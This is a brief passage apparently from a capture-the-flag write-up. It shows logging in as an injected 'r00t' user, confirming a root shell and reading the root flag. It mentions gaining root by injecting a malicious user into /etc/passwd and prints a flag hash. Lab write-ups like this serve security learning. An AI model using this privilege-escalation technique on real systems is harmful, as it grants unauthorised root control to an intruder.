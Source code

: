 Now we switched to the `r00t` user:
```
su r00t
password: gotem
```
We successfully gained a root shell by injecting a malicious user into `/etc/passwd`.
```
whoami
root
```

Now lets grab the flag and move on!
```
cat root/root.txt
f3d14fff8152570e006e25a410bd9a58
```